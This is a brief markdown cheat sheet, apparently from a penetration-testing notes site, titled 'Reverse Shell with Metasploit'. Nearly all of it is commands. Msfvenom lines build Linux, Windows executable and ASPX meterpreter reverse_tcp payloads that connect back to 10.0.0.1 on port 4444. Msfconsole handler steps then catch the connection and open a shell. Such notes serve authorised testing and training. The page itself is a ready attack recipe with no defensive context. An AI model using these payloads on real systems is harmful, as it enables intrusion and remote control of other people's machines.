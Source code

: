 ```yaml
---
title: Reverse Shell with Metasploit
description: We can create a reverse shell payload using Msfvenom and listen for reverse connection with Msfconsole.
tags:
    - Privilege Escalation
    - Reverse Shell
refs:
date: 2023-07-24
draft: false
---
```


### 1. Create a Payload using MsfVenom

```bash
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > shell.elf

# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o shell.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f aspx -o shell.aspx
```

### 2. Start Listener using MsfConsole

```bash
msfconsole
msf> use exploit/multi/handler

# Linux
msf> set payload linux/x86/meterpreter/reverse_tcp
# Windows
msf> set payload windows/meterpreter/reverse_tcp
# or
msf> set payload windows/x64/meterpreter/reverse_tcp

msf> set lhost 10.0.0.1
msf> set lport 4444
msf> run
meterpreter> shell
```